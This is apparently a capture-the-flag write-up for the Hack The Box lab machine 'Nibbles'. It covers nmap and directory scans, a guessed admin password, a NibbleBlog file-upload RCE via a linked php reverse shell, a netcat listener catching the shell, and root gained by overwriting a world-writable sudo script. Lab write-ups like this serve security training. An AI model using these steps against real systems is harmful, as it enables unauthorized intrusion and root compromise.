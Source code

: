 # Nibbles - 10.10.10.75

## nmap scan

```
# Nmap 7.70 scan initiated Fri May 18 12:39:49 2018 as: nmap -sC -sV -oA nmap 10.10.10.75
Nmap scan report for 10.10.10.75
Host is up (0.11s latency).
Scanned at 2018-05-18 12:39:50 EDT for 17s
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 18 12:40:07 2018 -- 1 IP address (1 host up) scanned in 17.67 seconds
```

## nibbles blog

The initial durbuster did not discover any directories, however Burp discovered ```nibbleblog``` directory, so I started mapping from there.

In fact, durb discovered a lot of stuff.
```
---- Scanning URL: http://10.10.10.75/nibbleblog/ ----
==> DIRECTORY: http://10.10.10.75/nibbleblog/admin/                          
+ http://10.10.10.75/nibbleblog/admin.php (CODE:200|SIZE:1401)                 
==> DIRECTORY: http://10.10.10.75/nibbleblog/content/                        
+ http://10.10.10.75/nibbleblog/index.php (CODE:200|SIZE:4725)                 
==> DIRECTORY: http://10.10.10.75/nibbleblog/languages/                      
==> DIRECTORY: http://10.10.10.75/nibbleblog/plugins/                        
+ http://10.10.10.75/nibbleblog/README (CODE:200|SIZE:4628)                    
==> DIRECTORY: http://10.10.10.75/nibbleblog/themes/                           

---- Entering directory: http://10.10.10.75/nibbleblog/admin/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://10.10.10.75/nibbleblog/content/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://10.10.10.75/nibbleblog/languages/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://10.10.10.75/nibbleblog/plugins/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://10.10.10.75/nibbleblog/themes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
```

The problem was that enum turned out to be useless and it did not seem that it is possible to get a shell without authenticating to the blog. Just before I was going to start sqlmapping and bruteforcing the login page, I decided to try a few stupid guesses. ```admin:nibbles``` got me in.

## RCE

There is a plugin that allows arbitrary file upload.
- [CVE](https://nvd.nist.gov/vuln/detail/CVE-2015-6967)
- [POC](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html)
- [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

```
nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.10.15.147] from (UNKNOWN) [10.10.10.75] 41178
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 15:10:16 up 1 min,  0 users,  load average: 0.25, 0.14, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
```

## Privesc

From there it was really straightforward.

```sudo -l```
```
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
```monitor.sh``` happens to be writable by everyone.
```
$ echo "bash" > /home/nibbler/personal/stuff/monitor.sh
$ sudo /home/nibbler/personal/stuff/monitor.sh
whoami
root
```
